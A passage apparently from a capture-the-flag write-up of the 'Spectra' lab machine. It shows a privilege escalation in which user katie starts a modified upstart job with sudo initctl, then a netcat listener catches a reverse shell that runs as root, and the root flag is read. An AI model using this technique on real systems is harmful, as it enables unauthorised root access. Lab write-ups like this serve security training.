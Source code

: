 ```bash
    echo "[`date`] Node Test Starting" >> /var/log/nodetest.log
end script

pre-stop script
    rm /var/run/nodetest.pid
    echo "[`date`] Node Test Stopping" >> /var/log/nodetest.log
end script
katie@spectra ~ $ sudo /sbin/initctl start test
test start/running, process 5908
```

```bash
nc -nvlp 7777
Listening on 0.0.0.0 7777
Connection received on 10.10.10.229 34810
spectra / # id
id
uid=0(root) gid=0(root) groups=0(root)
spectra / # cat /root/root.txt
cat /root/root.txt
d44519713b88--------------------
```

